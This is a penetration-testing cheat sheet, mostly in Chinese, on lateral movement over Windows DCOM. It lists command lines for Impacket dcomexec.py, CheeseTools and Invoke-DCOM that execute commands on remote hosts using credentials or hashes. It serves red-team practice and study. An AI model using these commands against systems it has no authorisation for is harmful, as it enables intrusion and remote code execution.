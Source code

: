 	DCOM 是 COM（组件对象模型）的扩展，它允许应用程序在远程计算机上实例化和访问 COM 对象的属性和方法。
  #### Impacket 
	DCOMExec.py
	>dcomexec.py [-h] [-share SHARE] [-nooutput] [-ts] [-debug] [-codec CODEC] [-object [{ShellWindows,ShellBrowserWindow,MMC20}]] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] [-dc-ip ip address] [-A authfile] [-keytab KEYTAB] target [command ...]
	>dcomexec.py -share C$ -object MMC20 '<DOMAIN>/<USERNAME>:<PASSWORD>@<MACHINE_CIBLE>'
	>dcomexec.py -share C$ -object MMC20 '<DOMAIN>/<USERNAME>:<PASSWORD>@<MACHINE_CIBLE>' 'ipconfig'
	>
	>python3 dcomexec.py -object MMC20 -silentcommand -debug $DOMAIN/$USER:$PASSWORD\$@$HOST 'notepad.exe'
	-object MMC20 是指定我们希望实例化 MMC20.Application 对象
	-silentcommand 无回显执行
  #### CheeseTools
  	https://github.com/klezVirus/CheeseTools
	https://klezvirus.github.io/RedTeaming/LateralMovement/LateralMovementDCOM/
	-t, --target=VALUE         目标机器
	-b, --binary=VALUE         二进制文件: powershell.exe
	-a, --args=VALUE           Arguments: -enc <blah>
	-m, --method=VALUE         Methods: MMC20Application, ShellWindows,
	                            ShellBrowserWindow, ExcelDDE, VisioAddonEx,
	                            OutlookShellEx, ExcelXLL, VisioExecLine, 
	                            OfficeMacro
	-r, --reg, --registry      Enable registry manipulation
	-h, -?, --help             Show Help

	当前方法: MMC20.Application, ShellWindows, ShellBrowserWindow, ExcelDDE, VisioAddonEx, OutlookShellEx, ExcelXLL, VisioExecLine, OfficeMacro
  #### Invoke-DCOM
  	https://raw.githubusercontent.com/rvrsh3ll/Misc-Powershell-Scripts/master/Invoke-DCOM.ps1
	>Import-Module .\Invoke-DCOM.ps1
	>Invoke-DCOM -ComputerName '10.10.10.10' -Method MMC20.Application -Command "calc.exe"
	>Invoke-DCOM -ComputerName '10.10.10.10' -Method ExcelDDE -Command "calc.exe"
	>Invoke-DCOM -ComputerName '10.10.10.10' -Method ServiceStart "MyService"
	>Invoke-DCOM -ComputerName '10.10.10.10' -Method ShellBrowserWindow -Command "calc.exe"
	>Invoke-DCOM -ComputerName '10.10.10.10' -Method ShellWindows -Command "calc.exe"